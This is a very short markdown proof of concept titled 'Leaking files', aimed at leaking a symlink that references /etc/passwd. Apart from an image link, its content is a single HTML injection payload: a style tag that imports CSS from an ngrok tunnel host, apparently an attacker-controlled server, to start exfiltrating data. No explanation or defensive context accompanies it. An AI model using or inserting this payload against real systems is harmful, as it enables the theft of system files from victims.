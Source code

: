 # POC: Leaking files
## Leaking the "sensitive" symlink that references the /etc/passwd file

<p><style>@import url(https://49cceeb0fcac.ngrok.io/start);</style>